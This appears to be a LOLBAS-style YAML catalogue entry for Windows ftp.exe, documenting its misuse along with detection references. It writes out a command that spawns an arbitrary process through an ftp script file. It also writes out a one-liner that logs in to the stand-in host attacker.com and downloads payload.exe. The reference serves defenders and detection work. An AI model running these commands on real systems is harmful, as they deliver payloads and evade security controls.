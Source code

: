 ```yaml
---
Name: Ftp.exe
Description: A binary designed for connecting to FTP servers
Author: 'Oddvar Moe'
Created: 2018-12-10
Commands:
  - Command: echo !calc.exe > ftpcommands.txt && ftp -s:ftpcommands.txt
    Description: Executes the commands you put inside the text file.
    Usecase: Spawn new process using ftp.exe. Ftp.exe runs cmd /C YourCommand
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: cmd.exe /c "@echo open attacker.com 21>ftp.txt&@echo USER attacker>>ftp.txt&@echo PASS PaSsWoRd>>ftp.txt&@echo binary>>ftp.txt&@echo GET /payload.exe>>ftp.txt&@echo quit>>ftp.txt&@ftp -s:ftp.txt -v"
    Description: Download
    Usecase: Spawn new process using ftp.exe. Ftp.exe downloads the binary.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\ftp.exe
  - Path: C:\Windows\SysWOW64\ftp.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_ftp.yml
  - IOC: cmd /c as child process of ftp.exe
Resources:
  - Link: https://twitter.com/0xAmit/status/1070063130636640256
  - Link: https://medium.com/@0xamit/lets-talk-about-security-research-discoveries-and-proper-discussion-etiquette-on-twitter-10f9be6d1939
  - Link: https://ss64.com/nt/ftp.html
  - Link: https://www.asafety.fr/vuln-exploit-poc/windows-dos-powershell-upload-de-fichier-en-ligne-de-commande-one-liner/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: BennyHusted
    Handle: ''
  - Person: Amit Serper
    Handle: '@0xAmit'
---
```

